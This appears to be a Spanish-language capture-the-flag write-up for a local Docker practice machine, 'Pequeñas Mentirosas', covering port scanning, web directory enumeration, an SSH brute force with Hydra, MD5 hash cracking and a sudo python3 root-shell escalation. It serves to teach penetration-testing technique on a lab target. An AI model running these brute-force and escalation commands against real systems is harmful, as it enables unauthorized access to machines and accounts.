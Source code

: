 
# 🕵️‍♀️ CTF - Pequeñas Mentirosas

Máquina de práctica desplegada con Docker. Esta guía documenta el proceso de enumeración, explotación y escalada de privilegios.

---

## 🔧 Paso 1: Despliegue

La máquina fue desplegada localmente usando un script `auto_deploy.sh`, asignándole la IP `172.17.0.2`.

```bash
sudo bash auto_deploy.sh pequenas-mentirosas.tar
```

---

## 🔍 Paso 2: Escaneo con Nmap

```bash
nmap -sV -min-rate 1000 -T4 -p- -Pn 172.17.0.2
```

### Puertos abiertos:

- **22/tcp** → SSH
- **80/tcp** → HTTP (Apache)

---

## 🌐 Paso 3: Enumeración Web

Se visitó `http://172.17.0.2/` y se encontró un mensaje:

> “La clave para A está en los archivos.”

Se analizaron:
- `index.html` (nada relevante)
- `/server-status` (acceso 403)

También se ejecutó **DIRB** para descubrir rutas:

```bash
dirb http://172.17.0.2/ /usr/share/dirb/wordlists/common.txt
```

---

## 🔑 Paso 4: Fuerza Bruta SSH

Se asumió que el usuario era `a`. Se ejecutó Hydra:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -t 6
```

🎯 **Credenciales encontradas:**
- Usuario: `a`
- Contraseña: `secret`

---

## 🐚 Paso 5: Acceso SSH como usuario `a`

```bash
ssh a@172.17.0.2
```

Se verificó que **no tiene privilegios de `sudo`**.

---

## 📂 Paso 6: Enumeración Interna

```bash
find / -name *.txt -perm -4000 2>/dev/null
```

Archivos interesantes:
- `/srv/ftp/hash_spencer.txt`
- `/srv/ftp/pista_fuerza_bruta.txt`
- `/srv/ftp/retos_asimetrico.txt`
- `/srv/ftp/original_a.txt`
- `/srv/ftp/clave_aes.txt`

---

## 🔓 Paso 7: Encontrar y crackear hash MD5

En uno de los archivos apareció un hash MD5 del usuario `spencer`.

El hash fue crackeado con **CrackStation** y se obtuvo la contraseña.

---

## 🐧 Paso 8: SSH como Spencer

```bash
ssh spencer@172.17.0.2
```

Se verifica que tiene permisos de `sudo` sobre `python3` sin contraseña:

```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/python3
```

---

## 📈 Paso 9: Escalada de privilegios

Se usó GTFOBins para ejecutar una shell como root con Python:

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
whoami
# root
```

--
